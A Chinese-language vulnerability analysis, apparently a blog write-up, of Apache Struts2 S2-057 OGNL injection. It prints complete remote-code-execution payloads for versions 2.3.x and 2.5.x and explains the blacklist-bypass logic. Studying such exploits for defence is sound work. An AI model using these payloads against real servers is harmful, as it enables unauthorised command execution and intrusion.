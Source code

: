 在2.3.x版本，可以直接用S2-045的poc打

```
/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23cmd%3D%27whoami%27%29.%28%23iswin%3D%28@java.lang.System@getProperty%28%27os.name%27%29.toLowerCase%28%29.contains%28%27win%27%29%29%29.%28%23cmds%3D%28%23iswin%3F%7B%27cmd%27%2C%27/c%27%2C%23cmd%7D%3A%7B%27/bin/bash%27%2C%27-c%27%2C%23cmd%7D%29%29.%28%23p%3Dnew%20java.lang.ProcessBuilder%28%23cmds%29%29.%28%23p.redirectErrorStream%28true%29%29.%28%23process%3D%23p.start%28%29%29.%28%23ros%3D%28@org.apache.struts2.ServletActionContext@getResponse%28%29.getOutputStream%28%29%29%29.%28@org.apache.commons.io.IOUtils@copy%28%23process.getInputStream%28%29%2C%23ros%29%29.%28%23ros.flush%28%29%29%7D/s2057.action
```

而对于2.5.x版本，我们需要好好分析一下

```java
${
(#ct=#request['struts.valueStack'].context).
(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).
(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ou.setExcludedClasses('')).
(#ou.setExcludedPackageNames('')).
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#ct.setMemberAccess(#dm)).(#cmd='whoami').
(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).
(#cmds=(#iswin?{'cmd','/c',#cmd}:{'/bin/bash','-c',#cmd})).
(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).
(#process=#p.start()).
(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).
(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())
}
```

从poc来看，从第7行开始都是我们熟悉的操作，那么前面多了那么多是在做什么？

参考：https://paper.seebug.org/794/#35-struts-2516

在struts2 2.5.13版本之后，ognl库进行了更新，从3.1.12->3.1.15，其主要的一个变化是禁止访问`context.map`，OgnlContext的get、put、remove函数中都删除了对当前context的操作

此外，excluded相关的集合被设置为不可变，无法通过clear的方式来清除

针对上面两种的绕过

> 文章提出了这么一种思路:
>
> - 没有办法使用`context.map`，可以调用`attr`，前文说过`attr`中保存着整个`context`的变量与方法，可以通过`attr`中的方法返回给我们一个`context.map`。
> - 没有办法直接调用`excludedClasses`，也就不能使用`clear`方法来清空，但是还可以利用`setter`来把`excludedClasses`给设置成空
> - 清空了黑名单，我们就可以利用`DefaultMemberAccess`来覆盖`_memberAccess`，来执行静态方法了。
>
> 而这里又会出现一个问题，当我们使用`OgnlUtil`的`setExcludedClasses`和`setExcludedPackageNames`将黑名单置空时并非是对于源（全局的OgnlUtil）进行置空，也就是说`_memberAccess`是源数据的一个引用，就像前文所说的，在每次`createAction`时都是通过`setOgnlUtil`利用全局的源数据创建一个引用，这个引用就是一个`MemberAccess`对象，也就是`_memberAccess`。所以这里只会影响这次请求的`OgnlUtil`而并未重新创建一个新的`_memberAccess`对象，所以旧的`_memberAccess`对象仍未改变。
>
> 而突破这种限制的方式就是再次发送一个请求，将上一次请求已经置空的`OgnlUitl`作为源重新创建一个`_memberAccess`，这样在第二次请求中`_memberAccess`就是黑名单被置空的情况，这个时候就释放了`DefaultMemberAccess`，就可以进行正常的覆盖以及执行静态方法。
